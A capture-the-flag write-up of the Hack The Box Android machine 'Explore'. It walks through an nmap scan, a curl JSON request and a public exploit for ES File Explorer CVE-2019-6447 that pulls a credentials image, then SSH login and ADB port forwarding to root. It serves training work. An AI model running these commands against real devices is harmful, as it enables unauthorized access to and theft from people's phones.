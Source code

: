 ```yaml
---
layout: default
---
```


# Quick Summary

Explore is an easy difficulty box. Unlike other machines, this one is running on Android. While poking around, we discover an Open Port Vulnerability and a public exploit for that. Once in the box, we escalate privileges by connecting to the ADB interface.


# 05 - Nmap
```sql
# Nmap 7.91 scan initiated Tue Oct 26 05:04:52 2021 as: nmap -sC -sV -p- -oA nmap/explore -vvv 10.10.10.247
Nmap scan report for 10.10.10.247
Host is up, received echo-reply ttl 63 (0.076s latency).
Scanned at 2021-10-26 05:04:52 EDT for 161s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|   2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqK2WZkEVE0CPTPpWoyDKZkHVrmffyDgcNNVK3PkamKs3M8tyqeFBivz4o8i9Ai8UlrVZ8mztI3qb+cHCdLMDpaO0ghf/50qYVGH4gU5vuVN0tbBJAR67ot4U+7WCcdh4sZHX5NNatyE36wpKj9t7n2XpEmIYda4CEIeUOy2Mm3Es+GD0AAUl8xG4uMYd2rdrJrrO1p15PO97/1ebsTH6SgFz3qjZvSirpom62WmmMbfRvJtNFiNJRydDpJvag2urk16GM9a0buF4h1JCGwMHxpSY05aKQLo8shdb9SxJRa9lMu3g2zgiDAmBCoKjsiPnuyWW+8G7Vz7X6nJC87KpL
5555/tcp  filtered freeciv no-response
39713/tcp open     unknown syn-ack ttl 63
42135/tcp open     http    syn-ack ttl 63 ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
Service Info: Device: phone

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 26 05:07:33 2021 -- 1 IP address (1 host up) scanned in 160.98 seconds
```


We know that it is an Android box. Instead of googling around as soon as the output fills up the screen, I like to go ahead and use netcat to see how the service communicates with us to get a raw idea. Then proceeding to look for known vulnerabilities will be a good start as this is an easy box.


# 10 - ES File Explorer


![](vx_images/18852584880067.png)


There is a public exploit against ES File Explorer, but we don't have a way to check the version. The date on the exploit, however, is promising. Let us blindly run the script against the server.

In, short the exploit sends a json payload to 59777 (open port vulnerability).

`$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777`



# Commands
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  help 10.10.10.247   
[-] WRONG COMMAND!
Available commands : 
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.
```

The one we get lucky with is the listPics command.

# Pics
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  listPics 10.10.10.247   

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```


creds.jpg is likely short for *credentials*.

# creds.jpg
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  getFile 10.10.10.247    /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ open out.dat
```

Let's now open it.

# Credentials
![](vx_images/422521313566709.png)


We've found credentials :)


# Shell
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ cat creds 
kristi: Kr1sT!5h@Rp3xPl0r3!

┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
```


# 15 - PrivEsc


# Open Ports
```bash
:/sdcard $ ss -ltn
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:39021                    *:*                  
LISTEN      0      50           *:2222                     *:*                  
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:35709                    *:*                  
```

Port 5555 was filtered in our Nmap result. Let's set up port forwarding to enumerate the service because we have no idea what is listening on it.

# Port Forwarding
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555 -p 2222
Password authentication
Password: 
:/ $ 
```

-L flag opens a port in our box and listens for connections to forward it to the remote server on the same port.
# ADB
![](vx_images/116225760927531.png)

Second nmap result is quite verbose because we are making the connection locally. 5555 turns out to be the adb interface. Let us connect to it and get root.

# Root
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ adb connect 127.0.0.1:5555 
connected to 127.0.0.1:5555

┌──(kali㉿kali)-[~/htb/explore]
└─$ adb -s 127.0.0.1:5555 shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
```
